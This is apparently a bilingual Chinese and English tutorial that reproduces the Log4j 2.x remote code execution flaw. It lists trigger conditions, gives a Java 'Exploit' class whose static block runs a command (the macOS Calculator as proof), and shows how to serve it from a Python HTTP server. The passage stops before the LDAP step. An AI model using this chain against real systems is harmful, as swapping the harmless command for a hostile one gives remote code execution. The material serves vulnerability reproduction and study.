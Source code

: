 ## 触发条件
[## Triggering conditions]:#

首先我要先声明以下几点:

[First let me declare the following:]:#

> 1.这个版本仅限于`2.0~2.14.1`的版本,其实`1.x`的版本也会触发,只是触发机制有点区别.<br/>
> 2.这个漏洞仅限于`error、fatal`级别的日志,其他级别的日志输出不会触发,而且就算使用占位符时也会触发.<br/>
> 3.远程去LDAP下载文件只要匹配一定的前缀就能下载,比如文件名是`Exploit`,只需要匹配`Ex`前缀也会触发.<br/>

[> 1.This version is limited to the `2.0~2.14.1` version, in fact, the `1.x` version will also trigger, but the trigger machanism is bit diferent.<br/> ]:#
[> 2.This vulnerability is limited to `error, fatal` level logs,  ohter levels of log output will not trigger, and will trigger even when placeholders are used.<br/> ]:#
[> 3.Remotly going to LDAP to download a file can be downloaded  as long as it matches a certain prefix. For example, if the file name is `Exploit`, it only needs to match the `Ex` prefix has too trigger. <br/>]:#

## 验证代码
[## Verification code]:#

首先准备以下有问题的代码,编译成class上传到http服务器根目录下(客户端).

[First prepare the following problematic code, compile it into a class and upload it to root directory of the http server (client). ]:#

```
public class Exploit {

    static {
        try {
            String [] cmd = {"/System/Applications/Calculator.app/Contents/MacOS/Calculator"};
            Runtime.getRuntime().exec(cmd).waitFor(); //open mac calc
        }catch (Exception e){
            e.printStackTrace();
        }
    }

}
```

然后启动HTTP服务器,比如上面的(客户端).

[Then start the HTTP server, like above (client). ]:#

```
# 为了简单,我直接用python启动一个web服务器
➜  ~ mkdir -p /tmp/test/
➜  ~ cd  /tmp/test/

#任选下面一种启动http服务器即可,我本机是python3环境
➜  test python -m SimpleHTTPServer 8888 #python2
➜  test python -m http.server  8888 #python3 
```

